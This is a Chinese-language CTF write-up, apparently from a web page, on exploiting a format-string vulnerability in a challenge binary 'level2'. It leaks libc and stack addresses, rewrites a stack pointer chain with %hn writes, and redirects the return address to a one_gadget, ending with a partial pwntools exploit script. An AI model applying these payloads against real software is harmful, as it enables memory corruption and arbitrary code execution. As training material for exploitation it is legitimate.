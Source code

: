 首先我们泄露出libc地址和栈地址，这两个地址分别用`%7$p`和`%9$p`就能泄露

接着我们来完成上面说的修改栈链

```
0x7fffffffde28 —▸ 0x7fffffffdef8 —▸ 0x7fffffffe264 ◂— 0x6f6c2f656d6f682f ('/home/lo')
```

这条链在格式化字符串中是`%9`<br>
我们通过如下payload来修改它的指向

```
payload = "%"+str(stack&amp;0xffff)+"c"+"%9$hnxxxx\x00"
```

修改完成后如下

[![](https://p3.ssl.qhimg.com/t01277ce4c553c9f12c.jpg)](https://p3.ssl.qhimg.com/t01277ce4c553c9f12c.jpg)

这样栈里面就存在了指向返回地址的二级指针，我们只要修改`00f0`处栈所指向的值就能修改返回地址了。

由于返回地址和onegadget地址只有后五位不一样，所以我们只需要通过格式化字符串修改返回地址得后三个字节即可，不用全部写入。

00f0的栈在格式化字符串中的位置是`%35`，我们第一次修改两字节，也就是用`%35$hn`进行写入，payload如下

```
payload = "%"+str(onegadget &amp; 0xffff)+"c"+"%35$hnxxxx\x00"
```

修改后如下所示

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016a55fb0e30bedb73.jpg)

接着我们来修改剩下的两字节。

我们需要再次修改`0020`处的栈链，使其偏移四位，即现在是`0x7ffe5519af48`,我们将其修改为`0x7ffe5519af4a`，这样就能够修改后四位的值，payload为

```
payload = "%"+str(stack&amp;0xffff+2)+"c"+"%9$hnxxxx\x00" #因为是以字节为单位偏移，所以+2就是偏移两字节，即偏移四位
```

修改了偏移之后就可以继续修改%35的栈值，进行最后的修改

```
payload = "%"+str((onegadget &gt;&gt; 16) &amp; 0xffff)+"c"+"%35$hnxxxx\x00"
```

修改完成后栈如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01538a6a69af0ac4cc.jpg)

返回地址已经被修改为了onegadget，然后输入66666666退出循环就能触发onegadget，完整exp如下

```
#!/usr/bin/python
from pwn import *
context.log_level='debug'
io = process("./level2")
elf = ELF('level2')
libc = ELF('libc-2.27_x64.so')

payload = "%6$p%7$p%9$p"
io.send(payload)
pro_base = int(io.recv(14), 16)-0x830
libc_base = int(io.recv(14), 16)-libc.symbols['__libc_start_main']-231
stack = int(io.recv(14), 16)-232
log.success('pro_base =&gt; `{``}`'.format(hex(pro_base)))
log.success('libc_base =&gt; `{``}`'.format(hex(libc_base)))
log.success('stack =&gt; `{``}`'.format(hex(stack)))

```